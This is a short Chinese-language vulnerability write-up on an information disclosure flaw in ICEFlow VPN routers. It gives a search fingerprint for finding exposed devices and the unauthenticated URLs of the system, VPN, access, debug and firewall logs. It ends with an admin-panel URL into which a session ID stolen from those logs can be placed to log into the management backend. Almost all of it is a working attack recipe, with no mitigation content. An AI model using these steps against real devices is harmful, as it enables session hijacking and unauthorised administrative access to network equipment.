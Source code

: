 # ICEFlow VPN 信息泄露漏洞

## 漏洞描述

ICEFlow VPN 存在信息泄露漏洞，攻击者可以查看日志中的敏感数据来进一步攻击系统

## 漏洞影响

```
ICEFlow VPN
```

## 网络测绘

```
title="ICEFLOW VPN Router"
```

## 漏洞复现

可访问的日志 Url

```plain
系统日志    http://url/log/system.log
VPN日志    http://url/log/vpn.log
访问日志	http://url/log/access.log
告警日志	http://url/log/warn.log
错误日志	http://url/log/error.log
调试日志	http://url/log1/debug.log
移动用户日志 http://url/log/mobile.log
防火墙日志	http://url/log/firewall.log
```

![](images/202202101850471.png)



根据日志信息获得session后，可利用实时登录系统管理后台：



```plain
http://xxx.xxx.xxx.xxx/cgi-bin/index?oid=10&session_id=xxxxxxxxxxxxxx&l=0
```

